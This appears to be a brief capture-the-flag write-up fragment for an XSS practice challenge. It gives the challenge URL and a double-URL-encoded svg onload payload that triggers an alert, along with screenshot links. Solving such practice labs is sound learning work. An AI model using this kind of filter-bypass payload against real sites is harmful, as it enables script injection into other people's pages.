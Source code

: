 Chal Url: http://www.zixem.altervista.org/XSS/7.php?name=
Payload: http://www.zixem.altervista.org/XSS/7.php?name=%253csvg/onload=alert(1337)%253e
![](https://user-images.githubusercontent.com/25671488/61380163-83383280-a8c6-11e9-95ae-4bf394607c8a.png)
